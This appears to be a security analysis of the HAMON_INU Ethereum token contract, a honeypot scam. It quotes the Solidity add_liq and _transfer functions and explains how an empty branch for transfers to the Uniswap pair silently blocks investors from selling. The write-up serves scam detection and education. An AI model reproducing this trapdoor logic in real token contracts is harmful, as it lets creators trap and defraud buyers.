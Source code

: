 ## HAMON_INU - [0xBCf439e5eEC974BBf3E02efe40f24ce0C83E30cc](https://etherscan.io/address/0xbcf439e5eec974bbf3e02efe40f24ce0c83e30cc#code)
### 1. Introduction
This malicious contract incorporate a trapdoor within the conditional checking category. 

### 2. Analysis
  
- **_Not accumulating liquidity pool balance (Conditional checking):_**
  
  _The "\_transfer" function does not include the accumulation of the token balance at UniswapV2pair when an investor attempts to sell the token. This absence of balance accumulation creates a sell restriction mechanism, limiting the ability to sell the token effectively._

### 3. Explanation
- **_Not accumulating liquidity pool balance (Conditional checking):_**

    ```solidity
    371:     function add_liq() public payable onlyOwner {
    372:         
    373:         IUniswapV2Router02 uniswapV2Router = IUniswapV2Router02(routerAddy);
    374:         
    375:         pairAddress = IUniswapV2Factory(uniswapV2Router.factory()).createPair(address(this), uniswapV2Router.WETH());
    376: 
    377:         _approve(address(this), address(uniswapV2Router), _initialSupply);
    378:         
    379:         uniswapV2Router.addLiquidityETH{value: msg.value}(
    380:             address(this),
    381:             _initialSupply*50/100,
    382:             0, // slippage is unavoidable
    383:             0, // slippage is unavoidable
    384:             _owner,
    385:             block.timestamp
    386:         );
    387:         
    388:     }    
    ```

    ```solidity
    424:     function _transfer(address sender, address recipient, uint256 amount) internal virtual {
    425:         
    426:         require(sender != address(0), "ERC20: transfer from the zero address");
    427:         require(recipient != address(0), "ERC20: transfer to the zero address");
    428: 
    429:         _beforeTokenTransfer(sender, recipient, amount);
    430:         
    431:         _balances[sender] = _balances[sender].sub(amount, "ERC20: transfer amount exceeds balance");
    432:         if(sender == _owner || sender == address(this) || recipient == address(this)) {
    433:             _balances[recipient] = _balances[recipient].add(amount);
    434:             emit Transfer(sender, recipient, amount);
    435:         } else if (recipient == pairAddress){ } 
    436:         else{
    437:             _balances[recipient] = _balances[recipient].add(amount);
    438:             emit Transfer(sender, recipient, amount);
    439:         }
    440:         
    441:     }
    ``` 

  ![HAMON_INUSellRestriction image](./HAMON_INUSellRestriction_trasferFunction.png)

    _The "\_transfer" function is called by both the transfer and transferFrom functions within the HAMON\_INU contract._

    _The trap is activated when an investor initiates a sell transaction. In the "\_transfer" function, there is a conditional statement (if-else) that handles sell transactions towards liquidity pool differently. When the recipient address matches the pairAddress variable, which is set to the uniswapV2pair address through the "add\_liq" function, the statement at line number 435 is executed. This statement results in an empty body, preventing the accumulation of balance to the uniswapV2pair, effectively imposing a sell restriction mechanism._

    _The creator of the contract has control over this trap through the add\_liq function. By calling this function, the creator assigns the uniswapV2pair address to the pairAddress variable._
    
  
